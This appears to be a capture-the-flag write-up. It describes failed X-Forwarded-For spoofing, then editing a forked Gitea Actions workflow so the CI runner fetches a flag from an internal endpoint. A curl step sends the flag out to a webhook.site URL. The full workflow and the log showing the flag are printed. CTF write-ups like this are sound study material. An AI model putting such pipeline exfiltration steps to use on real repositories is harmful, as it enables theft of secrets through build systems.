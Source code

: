 
- so the subnet mask for their network is `10.0.0.0/24` 
- this means they have an ip that is local to their network
- first we spoof just a `10.0.0.1`, obviously failed, so let's try a burp numbers attack all `2^8`
  - `32 - 24 = 8` therefore `2^8` 0-256 addresses for us to check. 
  - minus 2 because those are broadcast and gateway addresses for the router.
- just tried all addresses with a python script with requests library and `"X-Forwarded-For": ip`. NO LUCK

- let's switch tools. 
  - sqlmap
  - metasploit
  - owasp zap
  - beEF


  - ANDDD.... after much stumbling around. the solution was in the README. Some people forked the code that had gitea action privileges and edited the demo.yaml. I was scouring through their old commits to see what other users were doing and they were just using the yaml to force the /get_flag endpoint
  - adding: `run: curl https://webhook.site/0baeaa9f-a9d6-467c-81fb-648c3e08d010/$(curl http://10.0.0.9:8000/get_flag)` since the gitea site `http://git.hackmeto.win/` is technically on the same network, another fork can curl from it and pass the python middleware network check. 


```yaml
name: Gitea Actions Demo
run-name: ${{ gitea.actor }} is testing out Gitea Actions 🚀
on: [push]

jobs:
  Explore-Gitea-Actions:
    runs-on: ubuntu-latest
    steps:
      - run: echo "🎉 The job was automatically triggered by a ${{ gitea.event_name }} event."
      - run: echo "🐧 This job is now running on a ${{ runner.os }} server hosted by Gitea!"
      - run: echo "🔎 The name of your branch is ${{ gitea.ref }} and your repository is ${{ gitea.repository }}."
      - name: Check out repository code
        uses: actions/checkout@v3
      - run: echo "💡 The ${{ gitea.repository }} repository has been cloned to the runner."
      - run: echo "🖥️ The workflow is now ready to test your code on the runner."
      - name: List files in the repository
        run: |
          ls ${{ gitea.workspace }}          
      - run: curl https://webhook.site/0baeaa9f-a9d6-467c-81fb-648c3e08d010/$(curl http://10.0.0.9:8000/get_flag)  
      - run: echo "🍏 This job's status is ${{ job.status }}."
```


- checking the status of his gitea actions log... we see the flag

```
  curl https://webhook.site/0baeaa9f-a9d6-467c-81fb-648c3e08d010/$(curl http://10.0.0.9:8000/get_flag)
0s
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100    40  100    40    0     0   8169      0 --:--:-- --:--:-- --:--:-- 10000
curl: (3) nested brace in URL position 75:
https://webhook.site/0baeaa9f-a9d6-467c-81fb-648c3e08d010/{"flag":"SIVUSCG{thr0ugh_th3_p1p3l1n3}"}
```
